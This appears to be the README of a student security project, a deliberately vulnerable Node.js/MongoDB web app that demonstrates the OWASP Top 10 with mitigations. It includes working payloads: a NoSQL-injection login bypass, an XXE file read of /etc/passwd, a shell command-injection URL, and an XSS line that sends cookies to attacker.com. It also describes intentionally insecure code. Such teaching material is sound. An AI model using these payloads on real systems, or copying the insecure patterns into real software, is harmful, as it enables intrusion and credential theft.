



# Vulnerable RESTful Web App with Node.js, Express, and MongoDB

final project by *Xue Zou*, <br>
Course Cyber-security from Vanderbilt University, <br>
fall 2019, taught by *Dr.Christopher Jules White* 

## Goal
Design a web app with Node.js, Express, and MongoDB and RESTful APIs and demonstrate the **OWASP Top Ten** on it.

#### Table of Contents

- [OWASP Top 10](#owasp-top-10)
- [About the Web App](#about-the-web-app)
- [Vulnerabilities of the Web App](#vulnerabilities-of-the-web-app)
- [Progress Outline](#progress-outline--answer-to-heilmeier-questions)
- [Clickjacking Vulnerability on YES](#an-interesting-clickjacking-vulnerability-on-vanderbilt-system-yes)

## OWASP Top 10

#### Current official release [OWASP Top 10 2017](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

#### what is [OWASP](www.owasp.org)?

The Open Web Application Security Project, or OWASP, is a open non-profit community dedicated to improving the security of software. Their mission is to make software security visible, such that individuals and organizations are able to make informed decisions. 

One of OWASP's core principle is free and open, as all of the OWASP tools, documents, forums, and chapters are free and open to anyone interested in improving application security. One of their best-known project is the OWASP Top 10.

#### what is [OWAWP Top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)?

The OWASP Top 10 is a regularly-updated report outlining security concerns for web application security, representing a broad consensus about what the 10 most critical web application security flaws are. The report is put together by a team of security professionals from all over the world. OWASP refers to the Top 10 as an ‘awareness document’ and they recommend that all companies incorporate the report into their processes in order to mitigate security risks.

Below are the security risks reported in the OWASP Top 10 2017 report:

1. **Injection**

    Injection attacks happen when malicious data is sent to an interpreter through a form input to a web application. For example, the infamous SQL Injection enter SQL command into a form that expects a plaintext.

    Typically, to prevent injection attack, developers should always think carefully about the design of interfaces of APIs and use positive or "whitelist" server-side input validation.

2. **Broken Authentication**
    
    This type of attack relates to the user's identity, authentication, and session management. Some vulnerabilities in authentication systems can give attackers access to user accounts and even the admin account. For example, an attacker can take lists of known words against a user to form different combinations of passwords and then brute force trying all those combinations on the login system to see if there are any that work.

    Some strategies to mitigate authentication vulnerabilities are implementing weak password check, multi-factor authentication as well as avoiding deploying default credentials and limiting or delaying repeated login attempts using rate limiting.

3. **Sensitive Data Exposure**

    Sensitive Data Exposure is related to protection of sensitive data such as passwords, credit card numbers, health records, personal information and business secrets etc. Attackers can gain access to that data and sell or utilize it for bad purposes.

    Data exposure risk can be mitigated by encrypting all sensitive data with strong algorithms, as well as disabling the caching of any sensitive information. Additionally, developers should ensure that they are not unnecessarily storing any sensitive data.

4. **XML External Entities (XXE)**
    
    XXE attack is against an application that parses XML input. XML, or eXtensible Markup Language, is a markup language used to describe the structure of a document. An entity is an XML document maps some name to a value. An ‘external entity’ in this context refers to a storage unit, such as a hard drive, which is declared with a URI that is dereferenced and evaluated during XML processing. An vulnerable XML processors can be duped into sending data to an unauthorized external entity, which can pass sensitive data directly to an attacker. For example,
    ```
    <?xml version="1.0" encoding="ISO-8859-1"?>
      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
      <foo>&xxe;</foo>
    ```
    Here content of /etc/passwd will be stored in xxe, which can be later transfered back to the attacker, thus revealing sensitive information.

    To mitigate XEE attacks, the easiest way is to use less complex data formats such as JSON, and to avoid serialization of sensitive data, or at the very least to configure XML parser properly and disable the use of external entities in an XML application.

5. **Broken Access Control**

    [Access control](https://cheatsheetseries.owasp.org/cheatsheets/Access_Control_Cheat_Sheet.html) enforces policy such that users cannot act outside of their intended permissions. Broken access control typically lead to unauthorized information disclosure, modification or destruction of all data. For example, a user could login as another user just by changing the part of the url.

    Exploitation of access control is a core skill of attackers, who would try to act as users or administrators, use privileged functions, or mess around with every record. Access controls can be secured by automated detection and effective functional testing by application developers.

6. **Security Misconfiguration**

    This is probably the most common mistakes developers might unintentionally make. This vulnerability allows an attacker to accesses default accounts, unused pages, unpatched flaws, unprotected files and directories, etc. to gain unauthorized access to or knowledge of the system. For instance, an application server’s configuration allows detailed error messages, e.g. stack traces, to be returned to users, which potentially exposes sensitive information or underlying flaws.

    The configuration mistakes could me mitigated by removing any unused features and frameworks and ensuring that error messages are more general. Moreover, developers and system administrators need to work together to ensure that the entire stack is configured properly.

7. **Cross-Site Scripting (XSS)**

    XSS flaws occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victims' browser, which can access any cookies, session tokens, or other sensitive information retained by the browser, or redirect user to malicious sites. According to OWASP, XSS is the second most prevalent issue in the Top 10, and is found in around two-thirds of all applications. 

    For example, the application uses untrusted data in the construction of the following HTML snippet without validation or escaping: `(String) page += "<input name='creditcard' type='TEXT' value='" + request getParameter("CC") + "'>";` The attacker modifies the ‘CC’ parameter in the browser to: `'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.` This attack causes the victim’s session ID to be sent to the attacker’s website.

    To mitigate XSS, whitelist input validation and data sanitization are essential. Using modern web development frameworks like ReactJS and Ruby on Rails also provides some built-in XSS protection.

8. **Insecure Deserialization**
    
    Applications and APIs will be vulnerable if they deserialize hostile or tampered objects supplied by an attacker, and can result in serious consequences like DDoS attacks and remote code execution attacks.
    
    To protect against insecure deserialization, although monitoring deserialization and implementing type checks would help, the only safe way is to should never accept serialized objects from untrusted sources and to prohibit the deserialization of data from untrusted sources. 

9. **Using Components with known Vulnerabilities**

    Components could be libraries, frameworks, and other software modules. Since these components always run with full privileges, if components with known vulnerabilities are exploited, such an attack can seriously affect the application. 

    To minimize the risk of running components with known vulnerabilities, developers should remove unused dependencies and unnecessary features, components, files or documentation from their projects, as well as ensuring that they are monitoring and receiving components from a trusted source and ensuring they are secure and up to date. 

10. **Insufficient Logging & Monitoring**

    Many web applications are not taking enough steps to detect data breaches, which means the release of confidential, private, or otherwise sensitive information into an unsecured environment. In 2016, identifying a breach took an average of 191 days, which gives attackers a lot of time to cause damage before there is any response. 

    Since attackers rely on the lack of monitoring and timely response to
    achieve their goals without being detected, OWASP recommends that web developers should implement logging and monitoring as well as incident response plans to ensure that they are made aware of attacks on their applications.


## About the Web App

The starting point of this web app is from [here](https://github.com/cwbuecheler/node-tutorial-2-restful-app), which is a simple nodeJS web app with a list of all users. Then to make it a functional web application, I added user authentication, user creation without duplicates, data modification, session persistent etc. The app is developed in node.js and express and connected to NoSQL database MongoDB. 

The directories of the app are
* [/public](./public) - static directories such as /images, currently including js which includes all the client interactions and css files
* [/routes](./public) - route files which implements the APIs and routes
* [/views](./views) - views powered by jade template engine
* [README.md](README.md) - this file
* [app.js](app.js) - central app file 
* [package.json](package.json) - package info

#### Run

To connect to local mongoDB, for example, I have `mongod --dbpath ~/Documents/mongo/db`.

To run the code, git clone and first run `npm install` to install all all required dependencies. Then, run `npm run live` to run the node server with nodemon and go to 'http://localhost:3000' for user interface and 'http://localhost:3000/admin' for admin interface.

Here are some sample illustrations. Login Interface and user interface. Modifying corresponding field in the lower right boxes would update the database.

 

Admin Interface: Clicking the username of a user would display user info on the left box



In addition, page 
'http://localhost:3000/order?name={name}' would display an ordering interface. After submission, one would visit, for example, 
'http://localhost:3000/order.php?item=job%20offer&price=1' which displays ordering information. A secret unused page is at 'http://localhost:3000/pikachu'.


## Vulnerabilities of the Web App

Here I would list how to exploit these vulnerabilities on the application and also propose some solutions.

9. **Using Components with known Vulnerabilities**

    Run `npm audit`, we could see a 'npm audit security report' that lists all known vulnerabilities from the dependency tree, with the risk level, path and more specific details. It also suggests possible actions we should take to resolve the known vulnerabilities and `npm audit fix` would automatically install any compatible updates to vulnerable dependencies. 

    Particularly in this application I intentionally use out-of-date components and we have `found 7 vulnerabilities (3 low, 1 moderate, 2 high, 1 critical) in 2504 scanned packages` through `npm audit`: DOS from both mongoDb and path monk>mongoDb, code injection from Morgan, 'incorrect handling of non-boolean comparisons during minification' and 'regular expression DOS' from path jade>transformers>uglify-js, 'regular expression DOS' from jade>clean-css, and 'Sandbox Bypass Leading to Arbitrary Code Execution' from jade>constantinopl.    
    
    To fix the vulnerability, the application should update all its packages using a simple command `npm audit fix` to update packages. If some known vulnerabilities is not fixed by update of the package sources, we should consider use other secure components (with its dependencies being also secure) to replace the insecure ones. We should also make an ongoing plan for monitoring, triaging, and applying updates or configuration changes for the application. 

1. **NoSql injection attack**

    Normally people talk about SQL Injection. However, although we no longer deal with a query language in the form of a string, a [NoSQL injetion attack](https://www.owasp.org/index.php/Testing_for_NoSQL_injection) is also possible with their own operators and syntax. 

    In this application, when authenticating user into the system, we have a end point when doing a POST request to `/users/session`. And in this function (/routes/users.js, line 59, called by public/javascripts/global.js line 177), we get 
    ```javascript
    collection.findOne({ username: req.body.username, password: req.body.password })
    ```

    As we note in the request end point `/users/session`, there's no validation for username and password type to be string and also no proper sanitization on both the client and server side. Therefore, as we assume that the username field is coming from a deserialized JSON object, manipulation of the above query is easy. When the JSON document is deserialized, those fields may contain malicious input like below.
    ```javascript
    {
        "username": {"$gt": ""},
        "password": {"$gt": ""}
    }
    ```

    In MongoDB, the field $gt has a special meaning, which is used as the greater than comparator. As such, the username and the password from the database will be compared to the empty string "" and as a result return a true statement. Then the query would return a user in the database and the end-point would login that user, and hence result a login bypass.

    To exploit such vulnerability in our application, we could have the following code in the console. Then when refreshing the page, we are in the session of a user in the database.
    ```javascript 
    await fetch("http://localhost:3000/users/session", 
      {"credentials":"include",
       "headers":
        {"accept":"application/json, text/javascript, */*; q=0.01",
         "accept-language":"en,zh-CN;q=0.9,zh;q=0.8",
         "cache-control":"no-cache",
         "content-type":"application/x-www-form-urlencoded; charset=UTF-8",
         "pragma":"no-cache",
         "sec-fetch-mode":"cors",
         "sec-fetch-site":"same-origin",
         "x-requested-with":"XMLHttpRequest"},
       "referrer":"http://localhost:3000/",
       "referrerPolicy":"no-referrer-when-downgrade",
       "body":"username[$gt]=&password[$gt]=",
       "method":"POST",
       "mode":"cors"});
    ```

    The critical part is the body sent, which is `username[$gt]=&password[$gt]=`. Here in the application, when serializing and deserilizing json, **url-encoded key-value pairs** are used in communication. The string `username[$gt]=` is a special syntax used by the qs module (default in ExpressJS and the body-parser middleware). This syntax is the equivalent of making an JavaScript object with a single parameter called $gt mapped to no value. In essence, the request above will result into a JavaScript object that looks like ` { username: { '$gt': '' }, password: { '$gt': '' } }`, which is exactly the same one described above. Then the request would result a login bypass. 

    For this attack on this particular application, it is also a design problem. When authenticating user, we have lots of more secure ways to accomplish it instead of doing a query use both fields username and password.

    To protects against 'Dollar $' injection attacks, we should implement input validation and sanitization. We should write right validators for route that checks req.params, req.body and req.query for objects and recursively scans for the $ symbol and responds with an error if it is detected.

2. **Broken Authentication**

    It's obvious that the deign of the authentication is problematic. Firstly, following the path `/admin`, the admin account is easily accessible by everyone. Secondly, user-wise, the password management system is highly insecure since it doesn't have any kind of protection such as weak password check or multi-factor authentication. Even worse, by default, the password of every user is the same as their username. The default credentials expose the system to high security risk.

    To mitigate, the admin account should be set securely in some other manner. For example, we can use an admin account with multi-factor authentication. In the userface, we should integrate weak password check and avoid deploying default credentials.

3. **Sensitive Data Exposure**
    
    The system is also highly risky against sensitive data exposure. Firstly and most importantly, the password is stored as plaintext in the database. If eavesdropping happens in the network communication between the submission form and the server, the information is easily accessible by attackers. To help protect the system, password should be computed and stored by a strong one-way hashing algorithm with dynamic 'salt'. 

    Moreover, on line 33 of 'views/login.jade', we have, `input#loginPassword(type='text', placeholder='Password')`. Here when one enters the password in the login page, the characters are displayed as plaintext on the screen, which should be hidden behind symbols such as asterisks against peeking. To easily mitigate this, we should have `type='password'` instead.

    Even worse, we have a field credit card required when register. The information is firstly unnecessary and secondly too sensitive. Credit card information should be removed since it is not used and storing highly personal information such as credit card has too much risks and complications.

4. **XML External Entities (XXE Injection)**

    Since express mostly deals with json format in communication, to include data format XML in the application, we have script 'execphp.js' and 'php.js' that deals with php file execution from command line. Here's the flow for how file 'phpFiles/order.php' is executed. First, in the page '/order', which is rendered by 'views/order.jade', we have a submission form with `action='/order.php', method='GET'` on line 24. When we submit our ordering request, we would visit 'phpFiles/order.php' file, which reads in a xml formatted variable, and display corresponding order information on the webpage. Following is line 21 - 27 of 'order.php' file,
    ```php
    libxml_disable_entity_loader (false); # allow external entities
    $dom = new DOMDocument(); # create XML class
    $dom->loadXML($xm, LIBXML_NOENT | LIBXML_DTDLOAD); # load xml data into dom 
    $data = simplexml_import_dom($dom); # parse into XML
    $name = $data->name; # load item name
    $price = $data->price; # load item price
    echo "<h2>You have ordered: $name,</h2><p> with price: $$price.</p>";
    ```
    Here's the format of a expected XML variable on line 12-19 of 'phpFiles/order.php'.
    ```php
    $name = urldecode($argv[1]);
    $xm = <<<XML
    <?xml version="1.0" encoding="UTF-8"?>
    <item>
        <name>$name</name>
        <price>$argv[2]</price>
      </item>
    XML;
    ```
    If an external entity is allowed, malicious data such as the following from line 2 - 10 of 'phpFiles/order.php' would allow attackers to interfere with an application's processing of XML data,
    ```php
    $malicious = <<<XML
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE own [ <!ELEMENT own ANY >
    <!ENTITY own SYSTEM "file:///etc/passwd" >]>
    <item>
      <name>&own;</name>
      <price>$argv[2]</price>
    </item>
    XML;
    ```
    Here the Document Type Declaration is imported from the external URL `file:///etc/passw` into the XML document by using the SYSTEM keyword. If the data is parsed into the dom, since the external entities are allowed, as a result, the attacker is able to retrieve the '/etc/passwd' file from the server filesystem.

    XXE attacks like the example above often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access. To mitigate XEE attacks, the easiest is to other format such as JSON, or at the very least to configure XML parser properly and disable the use of external entities in an XML application. `libxml_disable_entity_loader (true)` would disallow external entities in the above example.

1. **Command Line Injection Attack**
    
    Since the php application runs through command line execution using the javascript 'exec()' function on line 24 of 'execphp.js' file, a command line injection attack is possible if we inject command line code in the path variable. For example, if we type http://localhost:3000/order.php?item=cookie&ls%20/;&price=1, the query parameter would turns into `cookie&ls ~;` after url decoding. On line 22 of 'execphp.js', the query parameter is concatenated as part of command line execution on line 24. When we run this malicious request, we have,
    ```
    /usr/bin/php ./phpFiles/order.php cookie&ls /; 1
    ```
    which would have `ls /;` executed as part of command line after executing php file. Then all files of the attacked system are listed on the webpage. To mitigate this, we should do proper sanitization with input into an interpreter, and basically better avoid using javscript's exec function. 

5. **Broken Access Control**

    Access control refers a system that controls access to information or functionality. In this application, the broken access controls allow anyone to bypass authorization by following url path `/admin` and perform tasks as though they were privileged as administrators. Moreover, anyone could also perform privileged task by typing into the request into url without proper authorization, like if we perform a DELETE request on url 'http://localhost:3000/users/deleteuser/{id}'.

    To help establish a proper access control, we should first deny access to functionality by default, and then use access control lists and role-based authentication mechanisms to give access based on different roles. Moreover, we could log access control failures, alert admins when appropriate (e.g. repeated failures), and also rate limit API and controller access to minimize the harm from automated attack tooling. 

6. **Security Misconfiguration**

    Security misconfiguration is often the result of using default configurations or displaying excessively verbose errors. Firstly, all files in `public` directory are available by typing into url, as a result of line 39 of app.js `app.use(express.static(path.join(__dirname, 'public')));` For example, by following http://localhost:3000/javascripts/global.js, the logics of all implementation and functionalities are exposed.

    Moreover, speaking of the case of unused page, by following a secret path `'/pikachu'`, one would find a secret unused page that prisoned a Pikachu and Squirtle. When it is put into production, such unused features should be removed such that we could reduce our attack surface as much as possible.

    To help configure in a more secure way, we should use *the principle of least privilege*: Everything off by default. Disable administration interfaces, disable debugging, disable use of default accounts/passwords. Configure server to prevent unauthorized access, directory listing, etc, and also Consider running scans and doing audits periodically to help detect future misconfiguration or missing patches.

7. **Cross-Site Scripting**
    
    When visiting a webpage such as 'http://localhost:3000/order?name=Xue', the query parameter 'name' would be passed into line 6 in 'routes/order.js'.and then passed down into the 'name' variable on line 5 of 'views/order.jade'. Then the name from the path variable would display as a part of a p tag html element. Since the input is not sanitized, one may pass anything and render the unauthorized resource in the page. For example, we could have a malicious link like 'http://localhost:3000/order?name=Follow%20our%20instagram%20page%20http://malicious.com', and after string concatenation it would be displayed as 'Follow our instagram page http://malicious.com! Welcome to the secret shop'. As a result, the untrusted content is rendered from a trusted source.

    Preventing XSS requires separation of untrusted data from active browser content. Mitigation strategies include escaping untrusted HTTP requests as well as "whitelist" validating and/or sanitizing user-generated content (length, characters, format, and business rules etc. on that data before accepting the input). In the particular example above, the query parameter should not be put into part of content without validation/sanitization.

8. *Insecure Deserialization*

    Data which is untrusted cannot be trusted to be well formed. Malformed data or unexpected data could be used to abuse application logic, deny service, or execute arbitrary code, when deserialized. Since deserilization is not explicitly used in the site, we won't discuss and demonstrate the vulnerability. The mongoDB database injection could be an example of a insecure deserialization of json object from input.

10. **Insufficient Logging And Monitoring**

    In this application, server side has almost no logging except using morgan, a HTTP request logger middleware for node.js. The insufficient logging is not only a bad software engineering practice in general, it also raises security concern. For example, if the application breaks, as developers, we won't even know what specific part might cause it. The lack of monitoring, logging or alerting would lead to a far worse situation.

    To help build better logging, all failures should be logged out. Firstly, we should ensure all login, access control failures, and server-side input validation failures can be logged with sufficient user context to identify suspicious or malicious accounts, and held for sufficient time to allow delayed forensic analysis. Secondly, we should ensure that logs are generated in a format that can be easily consumed by a centralized log management solutions. Thirdly, ensure high-value transactions have an audit trail with integrity controls to prevent tampering or deletion, such as append-only database tables or similar.

    Last but not least, we should establish effective monitoring and alerting such that suspicious activities are detected and responded to in a timely fashion, and establish or adopt an incident response and recovery plan.


## Progress Outline / Answer to Heilmeier questions

There are already some vulnerable web apps written in NodeJS, such as [dvna](https://github.com/appsecco/dvna) or [vulnerable-node](https://github.com/cr0hn/vulnerable-node), which uses SQL database or [OWASP's NodeGoat](https://github.com/OWASP/NodeGoat), which is a super large and well-maintained project to play around.

This project is different from the projects listed. Firstly it is implemented with mongoDB, and secondly it focus on not only vulnerabilities but also simpleness, with super simple UI interface and back-end APIs to play around with. This vulnerable application could be used to develop, to demonstrate, to fix and to test against. And it sets up an environment to learn how OWASP Top 10 security risks might apply to web applications developed using Node.js and how to possibly address them.

The project would take the later half of the course. To check the mid-term success, I want to finish most of 10 identifications and demonstrations of the vulnerabilities in the above part [Vulnerabilities of the Web App](#vulnerabilities-of-the-web-app). For final exam for this project, I am going to demonstrate the project in a final informative video below and finish the final writeup.

## Final Video demo

[Final Video]
[Final PPT](./final_ppt.pdf)

## References
1. Code starter reference from [Learn the basics of REST and use them to build an easy, fast, single-page web app.](https://github.com/cwbuecheler/node-tutorial-2-restful-app)
2. More about [OWASP top 10](https://www.cloudflare.com/learning/security/threats/owasp-top-10/)
3. [Injection attack with mongoDB and nodeJS](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)

## An interesting Clickjacking vulnerability on Vanderbilt system YES

This is not part of my final project but I want to also share my process of discovery here. Please visit *[clickjacking](./clickjacking)* if interested.
